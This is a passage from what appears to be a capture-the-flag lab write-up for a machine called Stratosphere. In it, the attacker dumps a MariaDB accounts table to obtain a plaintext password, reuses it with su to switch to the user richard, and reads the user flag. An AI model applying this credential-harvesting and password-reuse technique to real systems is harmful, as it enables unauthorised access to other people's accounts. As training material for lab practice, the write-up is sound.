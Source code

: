    MariaDB [(none)]> use users;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    Database changed

    MariaDB [users]>
    show tables;
    +-----------------+
    | Tables_in_users |
    +-----------------+
    | accounts        |
    +-----------------+
    1 row in set (0.00 sec)

    MariaDB [users]>
    select * from accounts;
    +------------------+---------------------------+----------+
    | fullName         | password                  | username |
    +------------------+---------------------------+----------+
    | Richard F. Smith | 9tc*rhKuG5TyXvUJOrE^5CK7k | richard  |
    +------------------+---------------------------+----------+
    1 row in set (0.01 sec)



### su with Creds

With password in hand, try su:



    tomcat8@stratosphere:~$
    su richard
    Password:
    9tc*rhKuG5TyXvUJOrE^5CK7k

    richard@stratosphere:/var/lib/tomcat8$



### user.txt

Use access as richard to get user.txt:



    richard@stratosphere:/var/lib/tomcat8$ cd /home/richard

    richard@stratosphere:~$
    cat user.txt
    e610b298************************
    richard@stratosphere:~$
    wc -c user.txt
    33 user.txt
